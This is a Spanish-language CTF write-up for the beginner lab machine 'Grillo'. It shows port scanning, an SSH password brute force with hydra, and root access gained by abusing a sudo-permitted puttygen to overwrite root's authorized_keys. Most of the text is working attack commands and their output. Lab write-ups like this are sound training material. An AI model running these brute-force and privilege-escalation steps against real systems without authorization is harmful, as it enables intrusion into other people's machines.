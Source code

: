 ```yaml
---
title: "TheHackerLabs - Principiante : [Grillo]"
date: 2024-05-10 14:00:00 +0200
categories: [CTF, Writeups, Thehackerslabs, Linux, Principiante]
tags: [CTF, Writeups, Thehackerslabs, Linux, Principiante]
image: /img/posts/CTF/grillo/grillo.png
---
```



### Writeup para el CTF **Grillo**

---

## Introducción

Hoy exploraremos la máquina CTF **Grillo**, diseñada para introducirnos al mundo del hacking ético y la resolución de retos. 

- **Nivel de Dificultad**: Principiante.  
- **Creadores**: **CuriosidadesDeHackers** y **Condor**.  
- Más detalles en [The Hacker's Labs](https://thehackerslabs.com/grillo/).  
- **Sistema Operativo**: Linux.  

![CTF Grillo](/img/posts/CTF/grillo/grillo.png)

---

## Información Inicial

Descargamos la máquina y la configuramos en VirtualBox.  
La IP asignada es **192.168.10.129**. 

![VirtualBox CTF Grillo](/img/posts/CTF/grillo/vboxgrillo.png)

Realizamos un escaneo completo para identificar puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv 192.168.10.129 -oG grillo
```

**Resultados:**

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

A continuación, ejecutamos un escaneo detallado:

```bash
sudo nmap -p22,80 -sCV 192.168.10.129 -oG grillo-ports
```

**Resultados detallados:**

```bash
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
```

---

## Análisis Inicial

Accedemos al puerto 80 y encontramos una página estándar de Apache2 Debian. En el pie de página, un comentario revela un posible nombre de usuario: **melanie**.

![Comentario revelador](/img/posts/CTF/grillo/apache-melanie.png)

---

## Fuerza Bruta en SSH

Con el usuario `melanie`, realizamos un ataque de fuerza bruta para descubrir su contraseña usando `hydra`:

```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.129
```

**Resultados:**

```bash
[22][ssh] host: 192.168.10.129   login: melanie   password: trustno1
```

---

## Acceso Inicial: Usuario `melanie`

Nos conectamos al servidor con las credenciales obtenidas:

```bash
ssh melanie@192.168.10.129
```

Exploramos su directorio personal y encontramos la primera flag:

```bash
melanie@grillo:~$ ls
user.txt
```

¡Primera flag conseguida!

---

## Escalada de Privilegios

Revisamos los privilegios sudo del usuario `melanie`:

```bash
sudo -l
```

**Resultados:**

```bash
User melanie may run the following commands on grillo:
    (root) NOPASSWD: /usr/bin/puttygen
```

Utilizamos `puttygen` para generar una clave privada RSA:

```bash
puttygen -t rsa -o id_rsa -O private-openssh
```

Ajustamos los permisos de la clave privada:

```bash
chmod 600 id_rsa
```

Preparamos la clave pública y la añadimos al archivo `authorized_keys` de root:

```bash
sudo /usr/bin/puttygen id_rsa -o /root/.ssh/authorized_keys -O public-openssh
```

Finalmente, nos conectamos como root usando la clave generada:

```bash
ssh -i id_rsa root@192.168.10.129
root@grillo:~# 
root@grillo:~# ls
root.txt
```

---

## Conclusión

Tras obtener acceso root, encontramos la segunda flag en el directorio `/root`. ¡Reto completado!
